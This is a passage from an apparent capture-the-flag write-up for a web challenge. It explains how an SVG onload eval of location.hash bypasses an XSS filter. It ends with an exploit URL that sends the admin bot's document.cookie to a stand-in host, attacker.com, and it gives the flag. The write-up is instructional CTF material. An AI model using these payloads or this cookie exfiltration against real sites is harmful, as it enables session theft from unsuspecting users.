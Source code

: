 * After 1 Hour, I realized, We can Write our Javascript Outside the Hostname and call the payload from Hostname. 

Ex:
```
https://https://wsc-2022-web-5-bvel4oasra-uc.a.run.app/visit?url=https://<svg%0Conload=eval(location.hash.slice(1))>#alert('AABBCCaabbcc')
```

* `location.hash.slice(1)` return the value after `#`
* `eval` is a Javascript Function to run the Javascript Code.

<img src="https://i.imgur.com/6WA3zKc.png">

* Now, Browser Doesn't Converted the Upper Case to Lowercase. 

## Flag:

```js
try {
            await page.setCookie({
                name: 'flag',
                value: process.env.FLAG,
                domain: cookieDomain,
                httpOnly: false,
                samesite: 'strict'
            })
```

From the Above Code, We know that, Flag is in the Admin Bot's Cookie

### Exploit: 

URL:

```
https://chal.link/visit?url=https://<svg%0Conload=eval(location.hash.slice(1))>/#window.location='https://attacker.com/?'+document.cookie
```

> Flag: wsc{wh0_kn3w_d0m41n_x55_w4s_4_th1n6}
